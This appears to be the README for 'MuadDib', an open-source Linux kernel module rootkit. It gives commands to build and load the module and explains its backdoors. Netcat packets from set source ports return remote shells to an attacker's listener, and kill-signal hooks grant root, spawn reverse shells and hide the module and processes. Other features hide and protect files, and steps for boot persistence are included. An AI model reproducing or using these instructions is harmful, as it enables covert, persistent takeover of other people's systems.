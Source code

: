 # MuadDib
Linux Kernel Module (LKM) Rootkit that works with linux kernel versions 5.13 and (hopefully) below.

## Installation
Just run the Makefile and insert the module.
```
make
insmod muadDib.ko
```
## Usage
### Accept Backdoor
To remotely get a shell, send a request from a specified source port (default 1337)
```
nc xxx.xxx.xxx.xxx 22 -p 1337
```
The shell will be returned on port 42069, so have a listener for that.
### Netfilter Backdoor
To remotely get a shell, it is also possible to abuse the netfilter backdoor. Send a packet to port 7777 on
the target machine from port 6666 on the source machine:
```
nc xxx.xxx.xxx.xxx 7777 -p 6666
```
The shell will be returned on port 42069, so have a listener for that.
### Get root
When on the machine, root can be acquired via kill hook
```
kill -64 9999
```
Any PID works
### Spawn reverse shell
Also works using kill hook
```
kill -42 9999
```
### Hide muadDib LKM
Again, using kill
```
kill -63 9999
```
When hidden, running ```kill -62 9999''' will show it
### Hide Process
```
kill -44 [PID to hide]
```
### Hide and Protect files
All files containing PREFIX [default MUADDIB] are hidden and cannot be deleted. 
### Misc
There is also a mkdir and execve hook just as a POC, have not found a use yet.

### Persistence
Copy muadDib.ko to /lib/modules/$(uname -r)/kernel/drivers/ 
echo muadDib to /etc/modules
sudo depmod 

## Tested on
Ubuntu 20.04.1 x86_64 Linux 5.13.0

## Resources/References:
	https://xcellerator.github.io/
	https://github.com/xcellerator/linux_kernel_hacking
	https://github.com/ilammy/ftrace-hook
	https://github.com/h3xduck/Umbra
